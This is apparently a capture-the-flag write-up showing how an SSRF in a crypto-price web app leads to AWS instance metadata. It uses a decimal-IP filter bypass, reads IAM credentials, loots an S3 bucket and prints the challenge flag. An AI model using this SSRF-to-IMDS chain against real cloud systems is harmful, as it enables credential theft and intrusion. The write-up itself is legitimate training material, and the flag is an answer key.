# PB Trading Fever

**Category:** Cloud Security  
**Difficulty:** Medium  
**Points:** 300  

## Challenge Description

After dominating every field they've entered, Point Blank Team recently caught crypto fever and decided to conquer digital trading. They built CryptoScope to aggregate all cryptocurrency data in one place, convinced this would be their ticket to the moon. But whispers in the crypto world hint that their most valuable configurations are hidden in a secure location, can you uncover where they stash their digital treasures?

**Challenge URL:** `https://crypto.pbctf.live`

## Initial Analysis

### Step 1: Exploring the Application

Upon accessing the CryptoScope application, we see a cyberpunk-themed crypto trading terminal:




Key observations from the page source:
- The application uses JavaScript to make API calls to `/fetch_price` and `/fetch_custom`
- There's an "Advanced Mode" for custom API endpoints

### Step 2: Reconnaissance with ReconGraph

Before diving into exploitation, let's gather intelligence about the target infrastructure. While there are many ways to perform reconnaissance (nmap, dig, whois, shodan, etc.), ReconGraph makes this process simple and straightforward. It's an open reconnaissance toolkit designed for scanning targets, mapping digital footprints, and binary file analysis.

1. Navigate to `https://recongraph.xyz`
2. Enter the challenge URL in the domain/IP scanner
3. Run an attack surface analysis



The scan reveals valuable infrastructure information:



**Asset Details:**
- **Type:** IP
- **Risk Level:** Low
- **Description:** ISP: Amazon Technologies Inc. ORG: AWS EC2 (ap-south-1) Region: MH Region Name: Maharashtra Country: India Time Zone: Asia/Kolkata Zip: 400001

 **Key Discovery:** The application is hosted on AWS EC2 in the ap-south-1 region, This could be a crucial information that wasn't mentioned anywhere in the challenge description.

### Step 3: Testing Standard Functionality

Now that we know we're dealing with an AWS EC2 instance, let's test the normal crypto price fetching to understand the application behavior:

1. Select "Bitcoin" as the cryptocurrency
2. Select "USD" as currency
3. Click "FETCH PRICE"




The response shows structured JSON data with price information, confirming the application works as expected and initernally makes API calls to coingecko to fetch the latest crypto prices.

### Step 4: Discovering the Advanced Mode

Clicking "Advanced Mode: Custom API Endpoints" reveals a hidden form:



This immediately suggests potential for Server-Side Request Forgery (SSRF). Combined with our reconnaissance finding that this is an AWS EC2 instance and the category being Cloud Security, we should investigate whether we can access the AWS Instance Metadata Service (IMDS).
 The warning text mentions "Only crypto/finance APIs allowed. For internal data sources."

### Step 5: Testing for SSRF

Let's test if we can make the server fetch arbitrary URLs. First, try accessing a legitimate external API:

```
Custom Data Source URL: https://httpbin.org/json
```



The application blocks this with:
```json
{
  "blocked_reason": "URL does not match approved trading data patterns",
  "error": "SECURITY ALERT: Unauthorized data source detected", 
  "message": "Only cryptocurrency and financial market APIs are permitted on this system.",
  "status": "ACCESS_DENIED"
}
```
This reveals that URLs must contain crypto/finance keywords! Let's try a legitimate crypto API:

```
Custom Data Source URL: https://api.coinbase.com/v2/prices/BTC-USD/spot
```



Success! The application fetches external URLs that contain crypto-related keywords.

### Step 6: Attempting Internal Access

Since our reconnaissance confirmed this is an AWS EC2 instance, let's try accessing the AWS Instance Metadata Service:

```
Custom Data Source URL: http://169.254.169.254/latest/meta-data/
```

The IP address 169.254.169.254 is a special, link-local address used by cloud platforms to access instance metadata



The application returns an error:
```json
{
  "error": "SECURITY ALERT: Unauthorized data source detected",
  "status": "ACCESS_DENIED",
  "message": "Only cryptocurrency and financial market APIs are permitted on this system.",
  "blocked_reason": "URL does not match approved trading data patterns"
}
```

The application is blocking access to the metadata service, but the error message gives us valuable information about the filtering mechanism.

### Step 7: Analyzing the Filtering Logic

From the error messages and testing, we can deduce the application has two layers of filtering:

- Keyword filtering (applied first): Requires URLs to contain crypto/finance keywords like api, price, crypto, coin, market, exchange, finance, or data
- Hostname filtering: Blocks URLs containing 169.254.169.254, localhost, 127.0.0.1, etc.

We need to bypass both filters simultaneously.

### Step 8: Bypassing the IP Filtering

Let's try alternative representations of the metadata IP address:

#### Decimal IP Representation
Convert `169.254.169.254` to decimal: `(169 << 24) + (254 << 16) + (169 << 8) + 254 = 2852039166`

```
Custom Data Source URL: http://2852039166/latest/meta-data/
```



Success! We can now access the Instance Metadata Service.

### Step 9: Exploring Instance Metadata

Let's enumerate the available metadata:

```
http://2852039166/latest/meta-data/iam/
```



```
http://2852039166/latest/meta-data/iam/security-credentials/
```



It shows the IAM Role Name, which is "ec2"
Now we can fetch the actual AWS credentials:

```
http://2852039166/latest/meta-data/iam/security-credentials/ec2
```



Perfect! We now have:
- `AccessKeyId`
- `SecretAccessKey` 
- `Token`
- `Expiration`

### Step 10: Using the AWS Credentials

Configure AWS CLI with the extracted credentials:

```bash
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
export AWS_DEFAULT_REGION="ap-south-1"
```

Verify the credentials:

```bash
aws sts get-caller-identity
```



### Step 11: Discovering S3 Access

List available S3 buckets:

```bash
aws s3 ls
```



We find a bucket named `pbctf-4` - this looks like our target!

### Step 12: Exploring the Flag Bucket

List the contents of the pbctf bucket:

```bash
aws s3 ls s3://pbctf-4/
```


*Screenshot location: Show the bucket contents with the suspicious image file*

We find an interesting file: `finally_4ft3r_18_y34rs.jpg`

The filename appears to be leetspeak for "finally after 18 years", (hinting at RCB's IPL Win 🤔?)

### Step 13: Extracting the Flag

Download the image:

```bash
aws s3 cp s3://pbctf-4/finally_4ft3r_18_y34rs.jpg ./
```
And on opening the Image we find what we actually guessed, an image of RCB Players Finally Getting thier hands on the IPL Trophy!


While this image brings joy to us, there's no visible flag here

Lets Check the image metadata for any hidden data:

```bash
exiftool finally_4ft3r_18_y34rs.jpg
```




In the metadata, we find a base64-encoded string in the `User Comment` field, this could be it!?:

```
User Comment: ASCII\0\0\0cGJjdGZ7c3NyZl9pbWRzdjFfYnVjazN0X2wwMHR9Cg==
```

Decode the flag:

```bash
echo "cGJjdGZ7c3NyZl9pbWRzdjFfYnVjazN0X2wwMHR9Cg==" | base64 -d
```



And we have our Flag!

**Flag:** `pbctf{ssrf_imdsv1_buck3t_l00t}`
